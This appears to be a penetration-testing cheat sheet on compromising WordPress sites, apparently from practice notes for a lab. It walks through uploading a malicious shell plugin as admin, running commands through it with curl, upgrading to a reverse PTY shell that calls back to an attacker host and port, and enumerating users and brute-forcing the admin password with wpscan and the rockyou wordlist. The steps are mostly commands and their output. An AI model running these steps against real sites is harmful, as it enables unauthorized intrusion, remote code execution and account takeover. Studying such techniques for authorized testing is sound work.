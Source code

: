# Wordpress

## Evil plugin install

If you are wordpress admin. ( Upload wordpress-shell plugin that can be found under shells )

This location:

--> Plugins --> Installed Plugins --> Add new --> upload  ( Press Activate )

This command gives you now command execution

```sh
curl http://10.11.1.xxx/wp-content/plugins/shell/shell.php?cmd=id
```

Use shellupgrader.py to get a full PTY shell.

```sh
shellupgrader.py 'http://10.11.1.xxx/wp-content/plugins/shell/shell.php' 10.11.0.xxx 1337
 [+] LHOST = 10.11.0.xxx
 [+] LPORT = 1337
 [+] Shell listen
 www-data@hostname:/var/www/wp-content/plugins/shell$ id
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Reconnaissance

Enumerate users

```sh
wpscan --url 'http://10.11.1.234' --enumerate u
```

Bruteforce user account

```sh
wpscan --url 'http://10.11.1.xxx' --wordlist /usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt --username admin
```